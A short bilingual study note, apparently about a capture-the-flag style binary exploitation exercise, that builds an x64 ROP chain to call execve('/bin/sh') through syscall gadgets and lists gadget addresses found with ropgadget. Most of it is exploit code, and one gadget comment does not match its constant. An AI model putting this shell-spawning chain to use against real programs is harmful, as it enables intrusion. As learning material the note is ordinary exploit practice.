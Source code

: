## 3.2 ONLY SYSCALL
standard format is 
x64 rmb
`_rdi, rsi, rdx, rcx_, r8d, r9d`

SYSCALL FORMAT 
```python
payload = flat(
    'A' * 8,
    POP_RAX,
    0x3b,
    POP_RDI,
    binsh,
    POP_RSI,
    0x0,
    POP_RDX,
    0X0,
    SYSCALL
)
```
but 我们这个case 不可以 因为没有 pop rsi 
 现在有的 (用 ropgadget)
```python
POP_RAX = 0x00000000004224c4 # 0x00000000004224c4 : pop rax ; ret
POP_RDI = 0x000000000046b3e6 # 0x000000000046b3e6 : pop rdi ; setne al ; ret
POP_RDX = 0x00000000004742ca # 0x00000000004742ca : pop rdx ; ret 2
SYSCALL = 0x0000000000463aa9 # 0x000000000040336c : syscall
POP_RSI = 0x000000000047333e # 0x000000000047333e : pop rsi ; retf 1
MOV_RSI_RAX = 0x000000000041338f # 0x000000000041338f : mov rsi, rax ; ret
```

现在的IDEA 是
pop rdi ; setne al ; ret
bin sh
pop rax ; ret
0
mov rsi, rax ; ret
pop rax ; ret
0x3b
pop rdx ; ret 2
0
syscall

大神是 简化了
pop rdi ; setne al ; ret
bin sh
pop rax ; ret
0x3b
pop rdx ; ret 2
0
syscall

```
# ROP chain for execve("/bin/sh", 0, 0)
# === Build the ROP chain in raw bytes === simple mode
rop = b'' 
rop += p64(POP_RDI)
rop += p64(bin_sh_addr)
rop += p64(POP_RAX)
rop += p64(59)  # execve syscall
rop += p64(POP_RDX)
rop += p64(0)
rop += p64(SYSCALL)
```
